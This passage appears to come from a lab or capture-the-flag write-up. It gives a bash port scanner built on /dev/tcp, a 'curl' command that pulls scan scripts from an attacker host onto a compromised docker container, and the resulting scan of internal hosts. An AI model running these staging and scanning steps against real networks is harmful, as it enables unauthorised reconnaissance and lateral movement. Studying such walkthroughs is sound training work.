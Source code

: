 
**portscan.sh**

```

#!/bin/bash


echo "host to portscan: "
read host

for port in {1..65000}; do
    (echo > /dev/tcp/$host/$port) &>/dev/null
    [ $? -eq 0 ] && echo "$port open"
if [ $port == 1000 ]
then
  echo "first 1000 ports scanned"
fi

if [ $port == 65000 ]
then
echo " port scan complete"
fi

done

```

You could combine the two into one script, but in my experience it takes way longer to run when you do so. I prefer to run them one after the other.

get them into our docker machine using `curl -o ipscan.sh <attackerip>:8000/ipscan.sh` and `curl -o portscan.sh <attackerip>:8000/portscan.sh`.
in order for them to run you will have to `chmod +x ` both files and then run them using `./ipscan.sh` or `./portscan.sh `

running ipscan gave me some interesting results

```


172.18.0.1
172.18.0.2
172.18.0.3
172.18.0.4

```

all of the ip's above are live.

running portscanner on those hosts gave me the following results:

```
host to portscan:
172.18.0.1
22 open
first 1000 ports scanned
8000 open
port scan complete

172.18.0.2
first 1000 ports scanned
3306 open
port scan complete


172.18.0.3
22 open
first 1000 ports scanned
```
